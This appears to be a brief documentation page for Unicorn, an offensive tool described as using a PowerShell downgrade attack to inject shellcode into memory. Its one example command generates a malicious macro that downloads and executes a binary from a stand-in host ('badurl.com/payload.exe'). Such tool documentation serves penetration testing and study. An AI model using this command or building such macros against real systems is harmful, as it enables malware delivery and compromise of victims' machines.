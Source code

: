 ```yaml
---
description: >-
  Unicorn is a simple tool for using a PowerShell downgrade attack and inject
  shellcode straight into memory. Based on Matthew Graeber's powershell attacks
  and the powershell bypass technique.
---
```


# Unicorn

## Examples

Generating a macro that will download and execute a binary:

```
python2 unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro
```
